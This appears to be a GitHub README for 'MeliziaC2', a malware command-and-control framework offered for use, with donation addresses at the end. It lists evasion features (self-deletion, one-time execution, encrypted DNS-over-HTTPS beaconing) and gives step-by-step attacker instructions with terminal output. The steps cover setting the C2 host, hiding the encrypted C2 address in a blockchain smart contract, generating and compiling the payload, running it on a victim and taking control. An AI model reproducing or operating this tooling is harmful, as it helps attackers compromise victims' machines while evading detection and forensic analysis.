 # MeliziaC2
DNS over HTTPS targeted malware (only runs once)

<p align="center">
  <img src="./logo.jpg" width="500">
</p>

## Key Features
- [x] Auto-delete malware on failure
- [x] Fully encrypted (per victim RSA key) DoH (DNS-over-HTTPS) communication
- [x] Malware only runs once!   

## Diagram

![diagram](./melizia_diagram.svg)


## Usage Steps

###### 0 - Edit contract_generator.py file
```
modify C2ServerIP variable:
C2ServerIP = "attacker.domain.com"
```

Create a polygon testnet API key, for smart contract deployment
https://auth.alchemy.com/signup

Edit SmartContractDeployment/.env
```
API_URL = "https://polygon-mumbai.g.alchemy.com/v2/[API KEY]"
PRIVATE_KEY = "[WALLET PRIVATE KEY]"
```

Download hardhat, solc (0.8.17+commit.8df45f5f.Emscripten.clang) and abigen (1.11.5-unstable-f7336573-20230316)

https://hardhat.org
https://github.com/ethereum/solc-js
https://geth.ethereum.org/docs/tools/abigen

attention to hardcoded binaries paths in contract_generator.py script!

###### 1 - Generate and deploy smart contract (contains the AES encrypted DNS address of server)
```
attacker_machine@ThreatActor:$ python3 contract_generator.py 
[...]
Calculating keccak from :: ImTWdbREqskoawYAXzEB()

Contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Encrypted C2 address :: weTq1JD5gpk4Guv/9wTXXhcXgxI+0V+aQPKly7F0rdM=
Contract key :: 9o2goajTJ3ivI+DLB+rRzw==
Generated contract variable name :: ImTWdbREqskoawYAXzEB
Contract keccak :: 7941b5a6

gen_payload primaryServerIP:port 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
```

###### 2 - Generate payload using the returned parameters
```
attacker_stager_server@Stager:$ python3 server_rust.py 
Server running!
> gen_payload stagerServerPublicIP:stagerServerExposedPort(1337 by default) 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
Smart contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Smart contract Keccak :: 7941b5a6
Generated payload with hash :: b'8822a96ba043c606b16ede401cb4a22f2a57c63214311c4ed21f5c705a5d7687'

> 
```

###### 3 - Compile payload
```
attacker_stager_server@Stager:~/Desktop/babagola/migrate$ cargo build --release --target=x86_64-unknown-linux-musl
[...]
warning: `migrate` (bin "migrate") generated 147 warnings
    Finished release [optimized] target(s) in 0.18s
warning: the following packages contain code that will be rejected by a future version of Rust: rustc-serialize v0.3.24
note: to see what the problems were, use the option `--future-incompat-report`, or run `cargo report future-incompatibilities --id 1051`
```

###### 4 - run (Victim)
```
user@Ubuntu:$ ./malware 
[debug information]
```

##### 5 - control!
```
threatactor@C2Server:~/C2_Melizia$ sudo python3.10 c2.py 
sudo: unable to resolve host TestingC2: Resource temporarily unavailable
 Melizia C2 
Pwned by trololo gang! kek kek keke kekw
- "SYSADMIN VOCÊ ESTÁ SENDO HIPNOTIZADO, ESQUEÇA QUE ESSA OWNADA EXISTIU"
        |) /\ |\ | /`  |
        |) \/ | \| \]  .
          __________         |) /\ |\ | /`  |
         /________ /|        |) \/ | \| \]  .
        |   X|I   | |
        |    |    | | |) /\ |\ | /`  |
        |IX  * III| | |) \/ | \| \]  .
        |    |    | |
        |____VI___| |         |) /\ |\ | /`  |
        |    /    | |         |) \/ | \| \]  .
        |   /     | |
        |  /      | |     |) /\ |\ | /`  |
        |( )      | |     |) \/ | \| \]  .
        |_________|/
                     |) /\ |\ | /`  |
                     |) \/ | \| \]  .


Ctrl+C is disabled! please use "exit" to exit from Melizia
Use "help" to see the available commands!
[!] DNS Server started

(Melizia)> A spaceship arrived!
"92994c589f860bab7af687fc3525d3de445812f52e951f5cf2d04432751a1b8c" Called home!
```

##### 6 - anddd, the artifact only runs once! (attempt to run the same artifact)
```
[Victim]

user@Ubuntu:$ ./target/x86_64-unknown-linux-musl/release/migrate 
user@Ubuntu:$ ./target/x86_64-unknown-linux-musl/release/migrate 
-bash: ./target/x86_64-unknown-linux-musl/release/migrate: No such file or directory <- Unlink

[Stager]
user@Ubuntu:~/Desktop/babagola$ python3 server_rust.py 

Server running!
> gen_payload 127.0.0.1:1337 0x564c3D9bBF15D7Be75f7468b4470f5d0B11bbD79 wiDt52uxNO7X7iUB8v0THw== b100ca9f                                                                                                  
Smart contract address :: 0x564c3D9bBF15D7Be75f7468b4470f5d0B11bbD79
Smart contract Keccak :: b100ca9f
Generated payload with hash :: b'67d6f46082e7ab5a48864d8e887bf571d1dca03161084392d1edf1738e03fdb6'

[Valid Victim]
> 127.0.0.1:46390 - ce0fba743a0694c32b5d3051c801c1518d0ecf719aa12e89da7ec3a133eb894f
Records: b'Yo/W/UQkmZ8etNrjiHCJC7EIWP9It2V3r1AWDaPnqx4='

New client incomming! preparing the missiles to attack :: ('127.0.0.1', 46390)
Sending smart contract address :: 0x564c3D9bBF15D7Be75f7468b4470f5d0B11bbD79

[Invalid Victim]
127.0.0.1:38478 - ce0fba743a0694c32b5d3051c801c1518d0ecf719aa12e89da7ec3a133eb894f
```

## Compilation
###### Static compile
```
rustup target add x86_64-unknown-linux-musl
cargo build --release --target=x86_64-unknown-linux-musl

or (windows)

rustup target add x86_64-pc-windows-gnu
cargo build --release --target=x86_64-pc-windows-gnu
```

# Donate!
```
Pix:
997f8e1c-5ea4-42d8-9a52-2d1a852e4274

https://nubank.com.br/pagar/sqtrd/oGVMf6g6Pa

Cripto
Direct:
BTC
1ACguGNLXik3sKYShtEuUX4ahYuM3yPFQq

MATIC
0x3b1699bbd7f67db0987ebef0f5f7b00c12fefddf

ETH
0x3b1699bbd7f67db0987ebef0f5f7b00c12fefddf

Metamask:
0x30f2F62FD0700af80Deb70D520f07deE9D411a33

XMR
83dsNXwoxmX54CNrv6WrB1dJeiyttgBZM2JFvUh43MMrDghfZmfcsB7cGywVL1X69YQBcMsxm8mbdJhEdzCjgdaETKawxFK

SOL
2DsFcwmKtqCCS2WhVM2FCt4LJa18ugk5o26sarbhcqnR

All the currencies are supported!
https://nowpayments.io/donation/demoni3864
```

